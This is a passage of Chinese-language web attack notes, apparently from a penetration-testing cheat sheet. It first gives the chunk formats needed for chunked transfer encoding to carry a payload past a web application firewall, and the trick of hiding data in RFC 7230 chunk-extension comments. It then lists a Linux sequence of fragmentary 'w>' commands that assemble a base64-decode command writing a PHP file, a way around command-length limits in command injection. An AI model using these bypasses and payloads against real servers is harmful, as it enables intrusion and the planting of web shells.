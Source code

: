 注意：第2块，第3块，第7块，和第8块。

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式，且长度值要将两个空行的长度计算在内（空行长度为2）。

第3块，即数据开始部分需满足
```
长度值
空行
数据
```

形式，且需将空行计算在内。

第7块即分割边界结束部分，需满足
```
长度值
空行
分割结束符
空行
```

形式，且计算空行长度在内。

第8块需满足
```
0空格
空行
空行
```
形式。如果不同时满足这四块的形式要求，payload 将不会生效。

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `“;”` 作为注释，如：
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

---

## 长度

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
```